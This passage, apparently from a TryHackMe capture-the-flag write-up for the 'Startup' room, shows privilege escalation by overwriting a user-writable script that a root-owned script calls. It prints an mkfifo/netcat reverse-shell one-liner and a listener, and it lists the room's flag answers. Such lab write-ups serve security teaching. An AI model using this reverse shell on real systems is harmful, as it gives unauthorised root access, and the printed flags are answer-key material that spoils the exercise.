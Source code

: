 - Now, when we look at the permissions for these files, we can see the following:
```sh
lennie@startup:~/scripts$ ls -la
ls -la
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Dec 13 19:40 startup_list.txt
```

- The two files in the `/scripts` directory are owned by root, which mean they run with root permissions. The `planner.sh` script references a file at `/etc/print.sh`. Now we can't directly edit the `planner.sh` script, but we may be able to do something to the script it references. Let's look into this further. Here is the content of the `/etc/print.sh` file:
```sh
#!/bin/bash
echo "Done!"
```

- It doesn't seem like anything is happening. But if we check the read/write permissions with `ls -la`, we see this:
```
-rwx------  1 lennie lennie    25 Nov 12  2020 print.sh
```

- Lennie is the owner of this file, meaning he can write to it. We can use `vim` to edit this file, and we can replace the contents with something that might call back to a [Netcat](https://sectools.org/tool/netcat/) listener we have running on our attacking machine. Since the script that calls it (`planner.sh`) is running with root permissions, there is a good chance it'll give us a shell with root access. Let's try it. 
- On our attacking machine, we can set up a [Netcat](https://sectools.org/tool/netcat/) listener on a different port than our PHP reverse shell:
```
nc -lnvp 4444
```

- Now we just add the following syntax to the `/etc/print.sh` file:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc target-ip 4444 >/tmp/f
```

- Let's try to run the `planner.sh` script and see what happens. Back at our [Netcat](https://sectools.org/tool/netcat/) session, we are greeted with this:
```
Connection from target-ip 36274 received!
/bin/sh: 0: can't access tty; job control turned off
# ls
root.txt
# 
```

- From here, we can grab that `root.txt` file and call this box finished. 
	- `root.txt` - `THM{f963aaa6a430f210222158ae15c3d76d}`

## THM Questions
### Welcome to Spice Hut!
1. What is the secret spicy soup recipe?
	1. love
2. What are the contents of user.txt?
	1. `THM{03ce3d619b80ccbfb3b7fc81e46c0e79}`

4. What are the contents of root.txt?
	1. `THM{f963aaa6a430f210222158ae15c3d76d}`

